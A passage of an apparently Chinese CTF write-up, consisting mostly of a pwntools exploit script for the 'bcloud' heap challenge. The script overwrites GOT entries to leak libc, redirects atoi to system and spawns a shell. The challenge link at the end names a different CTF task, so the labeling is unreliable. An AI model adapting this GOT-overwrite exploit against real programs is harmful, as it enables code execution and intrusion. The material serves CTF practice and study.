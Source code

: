 ```python

    #gdb.attach(p)
    # set notesize[0] = notesize[1] = notesize[2]=16
    # set notelist[0] = free@got, notelist[1]= notelist[2]=atoi@got
    p.sendlineafter('option--->>', '1')
    p.sendlineafter('Input the length of the note content:\n', str(1000))

    payload = p32(16) * 3 + (notelist_addr - notesize_addr - 12) * 'a' + p32(
        bcloud.got['free']) + p32(bcloud.got['atoi']) * 2
    p.sendlineafter('Input the content:\n', payload)

    # overwrite free@got with puts@plt
    p.sendlineafter('option--->>', '3')
    p.sendlineafter('Input the id:\n', str(0))
    p.sendlineafter('Input the new content:\n', p32(bcloud.plt['puts']))

    # leak atoi addr by fake free
    p.sendlineafter('option--->>', '4')
    p.sendlineafter('Input the id:\n', str(1))
    atoi_addr = u32(p.recv(4))
    libc_base = atoi_addr - libc.symbols['atoi']
    system_addr = libc_base + libc.symbols['system']
    log.success('libc base addr: ' + hex(libc_base))

    # overwrite atoi@got with system
    p.sendlineafter('option--->>', '3')
    p.sendlineafter('Input the id:\n', str(2))
    p.sendlineafter('Input the new content:\n', p32(system_addr))

    # get shell
    p.sendlineafter('option--->>', '/bin/sh\x00')
    p.interactive()


if __name__ == "__main__":
    exp()
```



## 题目

- [2016 Boston Key Party CTF cookbook](https://github.com/ctfs/write-ups-2016/tree/master/boston-key-party-2016/pwn/cookbook-6)
